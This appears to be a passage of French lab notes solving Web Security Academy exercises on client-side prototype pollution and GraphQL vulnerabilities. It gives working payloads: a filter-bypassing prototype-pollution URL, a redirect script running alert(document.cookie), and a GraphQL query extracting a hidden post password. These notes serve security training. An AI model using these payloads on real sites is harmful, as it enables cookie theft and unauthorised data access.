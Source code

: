 Payload final : 

    /?__pro__proto__to__[transport_url]=data:,alert(1);
    
#### Solution avec DOM Invader

TO DO 

### Client-side prototype pollution in third-party libraries

Démarrer DOM Invader, voir le problème détecté et faire "Scan for gadgets" comme dans les autres labs.

En faisant "Exploit" on voit bien un pop-up et on voit que l'outil a créé une URL finissant par "#__proto__[hitCallback]=alert%281%29"

Payload final reprenant cette information : 

    <script>
        location="https://0a1c000604802356823e5815006a002c.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29"
    </script>

### Privilege escalation via server-side prototype pollution

TO DO

## === GraphQL API vulnerabilities ===

### Accessing private GraphQL posts

On voit que l'entrée dans le lab amène directement une requête "POST /graphql/v1" qui renvoie quatre posts avec les ID 1, 2, 4 et 5.

Envoyer cette requête dans le Repeater puis : 

Clic droit => GraphQL => Set introspection query

Envoyer la requête obtenue. On obtient bien l'introspection. On remarque un champ "postPassword". Reprendre les informations trouvées dans l'introspection et envoyer la requête et la variable suivantes (dans l'onglet dédié au GraphQL) : 

    query getBlogPost($id: Int!) {
        getBlogPost(id : $id) {
    postPassword
            image
            title
            summary
            id
        postPassword
        }
    }

    {"id":3}
